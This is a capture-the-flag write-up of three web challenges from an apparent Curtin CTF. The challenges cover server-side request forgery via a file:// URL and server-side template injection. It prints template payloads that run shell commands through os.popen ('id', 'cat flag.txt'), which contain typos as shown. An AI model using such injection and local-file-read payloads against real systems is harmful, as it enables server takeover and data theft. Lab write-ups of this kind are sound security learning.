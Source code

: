 
### Sneaky Source
**Description:**<br>
The website allows one to retrieve the source code of a given URL, how does that really work?<br>
Challenge Link: http://54.255.222.103:8003/<br>

**Flag:**
CURTIN_CTF{S3rver_S1de_Surf1ng}

I used `file:////app/flag.txt`

---

### Valuable Feedback
**Description:**<br>
The author wants some feedback on th ewebsite quality, make sure to preview and send him some good reviews.<br>
Challenge Link: http://54.255.222.103:8004/<br>

**Flag:**
CURTIN_CTF{t3mpl4t3s_ar3_e4sy_t0_cr4ck}

Use this [github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#aspnet-razor---command-execution "payload") and copy paste all of them.

This one works<br>
```markdown
{{ self.__init__.__globlas__.__builtins__.__import__('os').popen('id')read() }}`
```
Here we successfully exploit it.

<img src="/assets/images/curtin24/valuable1.png" alt="">

Change id to cat flag.txt then got flag

```markdown
{{ self.__init__.__globlas__.__builtins__.__import__('os').popen('cat flag.txt')read() }}`
```
---

### Internal View
**Description:**<br>
The flag is hidden at /internal/flag path, but seems like it is not accessible to everyone...<br>
Challenge Link: http://54.255.222.103:8005/<br>
A little birdie just told me that the flag is in `/internal/flag` and hosted on port 5000 (internally..)
